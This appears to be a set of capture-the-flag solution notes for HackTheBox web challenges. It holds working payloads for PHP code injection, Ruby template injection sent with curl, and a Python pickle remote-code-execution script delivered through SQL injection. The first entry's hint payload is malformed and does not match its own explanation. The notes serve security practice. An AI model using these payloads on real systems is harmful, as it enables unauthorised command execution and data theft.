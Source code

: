 **01 web_lovetok:**
    Link: https://app.hackthebox.com/challenges/lovetok
    Hint/Solution "?format=${system(@_GET[cmd]}&cmd=ls ../"
    Explanation: 
    A. http://178.62.11.21:30505/: This is the base URL.
    B. ?format=$_{system($_GET[1])}: This part of the URL suggests an attempt to inject code. 
    C. It looks like it's trying to use the system function in PHP to execute a command specified in the $_GET[1] parameter.
    D. &1=ls+/: The &1=ls+/ part is likely an attempt to pass the command ls+/ as the value for the $_GET[1] parameter. 
    E. This command typically lists the files and directories in a Unix/Linux system.

**02 Toxic:** cookie to base64
    Link: https://app.hackthebox.com/challenges/toxic
    Hint: Cache is Encoded With Base64 and LFI to RCE via Header Injection.
    Solution: https://dhanush-ramuk.medium.com/toxic-hackthebox-challenge-walkthrough-easy-5629d066c127
 
**03 Neonify:**
    Link: https://app.hackthebox.com/challenges/neonify
    Hint: Encode With url Encoding.
           <%= File.open('flag.txt').read %> # Read file
    Solution: curl 159.65.20.166:32127 \        
		-s -X POST -d 'neon=a
		%3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' | grep -Eo 'HTB{.*}'
    Explanation: https://drt.sh/posts/htb-neonify/
    
**04 COP:**
    Link: https://app.hackthebox.com/challenges/cop
    Hint: No Flag value in DB, use script
		import pickle
		import base64
		import os
		payload = 'cp flag.txt application/static/.'
		class RCE:
		    def __reduce__(self):
			return os.system, (payload,)
		if __name__ == '__main__':
		    print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))
	Steps:
		run script on local copy the <value> output and 
		add to the url like 
		target/1' UNION SELECT '<VALUE>
    Solution: https://drt.sh/posts/htb-cop/



